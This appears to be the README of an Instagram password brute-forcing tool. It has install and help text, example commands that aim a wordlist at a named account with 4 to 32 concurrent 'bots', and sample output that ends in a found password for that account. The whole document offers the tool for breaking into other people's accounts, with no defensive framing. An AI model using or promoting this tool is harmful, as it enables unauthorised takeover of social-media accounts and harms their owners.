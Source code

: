 Install Dependencies
pip3 install -r requirements.txt
Help
python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
Usage
python3 instagram.py <username> <wordlist> -m <mode>
Bots(Threads)
4 bots: 64 passwords at a time
8 bots: 128 passwords at a time
16 bots: 256 passwords at a time
32 bots: 512 passwords at a time
Modes
0: 32 bots
1: 16 bots
2: 8 bots
3: 4 bots
Chill mode
This mode uses only 4 bots, or 64 passwords at a time.

python3 instagram.py lachin_a pass.lst -m 3
Moderate mode 1
This mode uses 8 bots, or 128 passwords at a time.

python3 instagram.py lachin_a pass.lst -m 2
Moderate mode 2
This mode uses 16 bots, or 256 passwords at a time.

python3 instagram.py lachin_a pass.lst -m 1
Savage mode
This mode uses 32 bots, or 512 passwords at a time.

python3 instagram.py lachin_a pass.lst -m 0
If you don't specify a mode, then mode is set to 2
Run
[-] Wordlist: pass.lst
[-] Username: lachin_a
[-] Password: lachin222
[-] Complete: 45.51%
[-] Attempts: 123
[-] Browsers: 68
[-] Exists: True
Stop
[-] Wordlist: pass.lst
[-] Username: lachin_a
[-] Password: lachin1234
[-] Complete: 62.67%
[-] Attempts: 30
[-] Browsers: 35
[-] Exists: True

[!] Password Found
[+] Username: lachin_a  
[+] Password: lachin123456
......................................//
